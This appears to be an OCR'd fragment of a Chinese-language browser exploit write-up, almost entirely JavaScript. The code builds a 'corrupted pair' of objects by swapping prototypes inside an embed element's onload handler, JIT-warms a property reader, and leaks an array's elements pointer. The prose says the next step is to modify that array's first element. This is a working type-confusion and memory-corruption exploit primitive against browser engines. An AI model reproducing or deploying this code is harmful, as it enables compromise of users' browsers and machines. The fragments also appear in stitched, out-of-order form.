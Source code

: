 ```javascript
  const object_2 = {
    __proto__: proto
  };
  object_2.regular_prop = 1;


  setPropertyViaEmbed(object_2, value_2, () => {
    Object.setPrototypeOf(proto, null);
    object_2.corrupted_prop = value_1;
    object_1.regular_prop = 1.1
  });


  return [object_1, object_2];
}

double_arr = [1.1]
obj_arr = [double_arr, {}]

proto1 = {};
const [object_1, object_2] = createCorruptedPair(proto1, 1.1, obj_arr)

read_props_elems = (o) => {
	return o.corrupted_prop;
}

for (let i = 0; i < 10000; ++i) {
	read_props_elems(object_1);
}

// 读取 obj_arr 数组的 elements
obj_arr_elems = high32u(ftou(read_props_elems(object_2)));
console.log('obj arr elems:', obj_arr_elems.toString(16));
```

得到数组 elements 后，读取其中存储的第一个元素，修改此元素的 elements 的代码片段：

```javascript
createCorruptedPair = (proto, value_1, value_2) => {
	setPropertyViaEmbed = (object, value, handler) => {
		const embed = document.createElement('embed');
		embed.onload = handler;
		embed.type = 'text/html';
		Object.setPrototypeOf(proto, embed);
		document.body.appendChild(embed);
		object.corrupted_prop = value;
		embed.remove();
	}

  const object_1 = {
    __proto__: proto
  };
  object_1.regular_prop = 1;


  setPropertyViaEmbed(object_1, value_2, () => {
    Object.setPrototypeOf(proto, null);
    object_1.corrupted_prop = value_1;
  });


  const object_2 = {
    __proto__: proto
  };
```